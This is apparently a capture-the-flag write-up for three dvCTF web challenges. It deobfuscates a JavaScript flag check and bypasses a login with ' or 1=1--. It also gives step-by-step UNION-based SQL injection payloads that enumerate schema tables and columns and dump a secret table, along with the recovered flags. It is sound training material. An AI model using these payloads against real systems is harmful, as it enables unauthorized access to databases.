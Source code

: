 # Web
## Obfuscated
For this challenge you need to deobfuscate given JavaScript. You can use some websites or do it yourself, because it's short. Deobfuscated script could look something like this:
```javascript
function testSecret() {
  var a = "%64%76%43%54%46%7b%31%74%5f%69%73%5f%6e%30%74%5f%34%5f%73%65%63%72%33%74%5f%34%6e%79%6d%30%72%33%7d"
  var s = document.getElementById("secret").value;
  if (s == unescape(a)) { // s == "dvCTF{1t_is_n0t_4_secr3t_4nym0r3}"
    document.getElementById("result").innerHtml =  "OOO NO you have found my secret !"
  } 
  else {
    document.getElementById("result").innerHtml =  "HEHE my secret is well kept !"
  }
```
`unescape()` is built in method and it decodes the flag:
```
dvCTF{1t_is_n0t_4_secr3t_4nym0r3}
```

## Authentication
We are presented with a login page we are supposed to bypass.
I've just tested the form for SQL injection by inputing `' or 1=1--` into username field and... it worked!
After looking around in the website I found the flag in the HTML source:
```
dvCTF{!th4t_w4s_34sy!}
```
## Members
SQL Injection, this time more serious.
We have a list of "memebers" with 3 columns and a search field.
I quickly found by testing that it's susceptible to SQL Injection. This time we need to use double quotes though.

 So we can use `UNION` to get everything we need:
 1. You can guess, or check with injections, how many columns does the table have. It has 3
 2. Use this input to show all the tables in the DB:
```SQL
" AND 1=2 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema = database() -- -
```
We get `members,supa_secret_table`

3. Check what columns `supa_secret_table` has:
```SQL
" AND 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema = database() AND table_name ='supa_secret_table'-- -
```
we get `id, flag`.

4. Finally we dump the contents of that table:
```SQL
" AND 1=2 UNION SELECT id, flag, 3 FROM supa_secret_table-- -
```
The injection payloads were adapted from [here](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635).

The flag:
```
dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}
```
